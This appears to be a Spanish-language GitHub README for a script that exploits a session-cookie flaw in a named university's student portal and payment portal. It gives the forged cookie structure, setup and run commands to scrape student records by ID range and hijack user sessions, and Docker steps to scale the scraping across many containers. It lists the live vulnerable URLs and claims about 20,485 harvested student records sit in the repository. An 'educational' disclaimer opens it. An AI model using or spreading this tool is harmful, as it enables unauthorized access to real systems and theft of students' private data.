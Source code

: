 
<div align="end">
<img
 style="object-fit: cover;"
 src="./assets/icons8-hack-60.png" >
</div>

# Script scraping vunerability from uped portal

> [!CAUTION]
> Este script fue creado con fines educativos,en ningun momento se pretende hacer daño a la universidad o a su portal web al contrario se pretende ayudar a mejorar la seguridad de la misma.

## 🗒️ Descripcion

Script que permite obtener la información de estudiantes y la sesion de un usuario en el portal de la universidad.

## 🍪 En que consiste la vulnerabilidad

La vunerabilidad consiste en manipular la cookie de una session para obtener la informacion de un usuario sin necesidad de logearse en el portal de la universidad.

la estructura de cookie es la siguiente:

```json
{
  ".ASPXAUTH": "puede ser cualquier sesion",
  "ASP.NET_SessionId": "id de la session del autenticacion",
  "CodigoUsuario": "codigo del usuario",
  "usuario": "nombre del usuario",
}
```

## 📋 Requisitos

- Node.js v20.0.0

## 🚀 Instalación

```bash
git clone https://github.com/epmyas2022/uped-vunerabilidad.git
```

```bash
npm install
```

Configurar las variables de entorno en el archivo `.env`

```env
ASPXAUTH=#de cualquier sesion
SESSION_ID=#id de la session del autenticacion
ARGS=#argumentos para el navegador
```

## 💻 Comandos

Obtener la informacion del expediente de los estudiantes basados en un rango  x1 a x2

```bash
npm run general <x1> <x2> [optional | Boolean] <headless>
```

Obtener la sesion de un usuario

```bash
npm run login <user> <codigo>
```

Obtener la sesion del portal de pagos de un estudiante

```bash
npm run pagos <user> <codigo>
```

## 🐳 Con docker

Esto es util para ejecutar el script en un contenedor docker, podriamos ejecutar x cantidad de contenedores para obtener la informacion de los estudiantes.

Construir la imagen (builder)

```bash
docker build -f .docker/Dockerfile --target builder -t uped-vunerabilidad .
```

Construir el contenedor

```bash
docker run -it -d -e ASPXAUTH=token -e SESSION_ID=id -e FROM=desde -e TO=hasta --privileged --security-opt seccomp=.docker/chrome.json uped-vunerabilidad
```

## 📂 Estructura de archivos

Dentro de la carpeta data se encuentra varios datos con que se comprobo la vulnerabilidad del portal de la universidad. estos datos obtenidos fueron mediante el script aprovechando la vulnerabilidad.
en total existen aproximadamente **20,485** registros de estudiantes.

## Sitios vulnerables

- [x] Portal de la universidad [aqui](https://myappcloud.net/uped/login.aspx)
- [x] Portal de pagos [aqui](https://saas.spsoftware.net/uped_pagos/)
- [ ] Portal de docentes
- [ ] Portal de evaluacion docente
